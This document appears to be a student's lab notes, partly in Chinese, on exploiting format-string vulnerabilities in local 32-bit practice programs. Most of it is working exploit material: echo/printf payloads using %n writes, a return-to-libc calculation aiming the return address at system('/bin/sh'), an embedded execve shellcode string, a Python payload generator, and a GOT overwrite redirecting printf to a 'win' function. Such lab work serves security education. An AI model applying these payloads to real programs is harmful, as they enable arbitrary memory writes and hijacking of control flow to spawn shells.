 ![image-20240703182007041](img/image-20240703182007041.png)

```
echo $(printf "\x16\xf0\xff\xbf@@@@\x14\xf0\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
```

![image-20240703182037452](img/image-20240703182037452.png)

```
echo $(printf "\x16\xF0\xFF\xBF@@@@\x14\xF0\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input

./prog1 < input | grep -a address
```

![image-20240703182049573](img/image-20240703182049573.png)

![image-20240703182056202](img/image-20240703182056202.png)

The address of the input array: 0xbfbe8bc4
The value of the frame pointer: 0xbfbe8ba8
The value of the return address(before): 0x080485b9

The value of the return address(after): 0x080485b9

**EBP的地址是0xbfbe8ba8

![image-20240703182101908](img/image-20240703182101908.png)

![image-20240703182107302](img/image-20240703182107302.png)

**注意到system()函数偏移为0x0003ad80，字符串“/bin/sh”偏移为0x0015ba3f

![image-20240703182113023](img/image-20240703182113023.png)

**我们有libc的加载基址      0xb7e0b000 

可以计算system函数地址为 

```
0xb7e0b000+0x0003ad80=0xb7e45d80
```

"/bin/sh"的地址为

```
0xb7e0b000+0x0015ba3f=0xb7f66a3f
```

```
0xb7e4 = 47076
0x5d80 = 23936
0xb7f6 = 47094
0x6a3f = 27199

23936 - 148 = 23788
27199 - 23936 = 3263
47076 - 27199 = 19877
47094 - 47076 = 18

system函数放入返回地址 

/bin/sh放入参数地址
```

- `0xb7da` = 47066
- `0x4da0` = 19872
- `0xb7ec` = 47084
- `0x582b` = 22571

echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > badfile

**EBP**的地址: 0xbfbe8ba8

**ret** = 0xbfbe8ba8+ 4 = 0xbfbe8bac

**参数位置** =0xbfbe8ba8 + 12 = 0xbfbe8bb4

```
echo $(printf "\xac\x8b\xbe\xbf@@@@\xb4\x8b\xbe\xbf@@@@\xae\x8b\xbe\xbf@@@@\xb6\x8b\xbe\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%23788x%hn%3263x%hn%19877x%hn%18x%hn > badfile


```

echo$(printf"\xae\xee\xff\xbf@@@@\xac\xee\xff\xbf")_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.49003x%hn_%.11500x%hn$(printf"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00") > badfile

```
#!/usr/bin/python3
import sys
N = 200
content = bytearray(0x90 for i in range(N))

# Put the address at the beginning
addr1 =  0xbfffefac
addr2 =  0xbfffefb4
addr3 =  0xbfffefae
addr4 =  0xbfffefb6

content[0:4] = addr1.to_bytes(4, byteorder='little')
content[4:8] = ("dead").encode('latin-1')
content[8:12] = addr2.to_bytes(4, byteorder='little')
content[12:16] = ("beef").encode('latin-1')
content[16:20] = addr3.to_bytes(4, byteorder='little')
content[20:24] = ("cafe").encode('latin-1')
content[24:28] = addr4.to_bytes(4, byteorder='little')
content[28:32] = ("babe").encode('latin-1')

C = 15

# Construct the format string
small1 = 0x5d80-28-C*8
large1 = 0x6a3f-0x5d80
small2 = 0xb7e4-0x6a3f
large2 = 0xb7f6-0xb7e4

s = "%.8x"*C+"%."+str(small1)+"x"+"%hn"+"%."+str(large1)+"x"+"%hn"+"%."+str(small2)+"x"+"%hn"+"%."+str(large2)+"x"+"%hn"

fmt = s.encode('latin-1')
content[28:28+len(fmt)] = fmt

# Write the content to badfile
file = open("input", "wb")
file.write(content)
file.close()

```

```
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
```

![image-20240703182121121](img/image-20240703182121121.png)







![image-20240703182126417](img/image-20240703182126417.png)

![image-20240703182131298](img/image-20240703182131298.png)



080483a0 <printf@plt>:
 80483a0:	ff 25 0c a0 04 08    	jmp    *0x0804 a00c
 80483a6:	68 00 00 00 00       	push   $0x0
 80483ab:	e9 e0 ff ff ff       	jmp    8048390 <_init+0x28>



0804 850b <win>:

objdump -d ./prog3|grep win

0804850b <win>:

0804     2052

850b     34059

```
echo $(printf "\x0e\xa0\x04\x08@@@@\x0c\xa0\x04\x08")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%1920x%hn%32007x%hn> input
```

![image-20240703182137353](img/image-20240703182137353.png)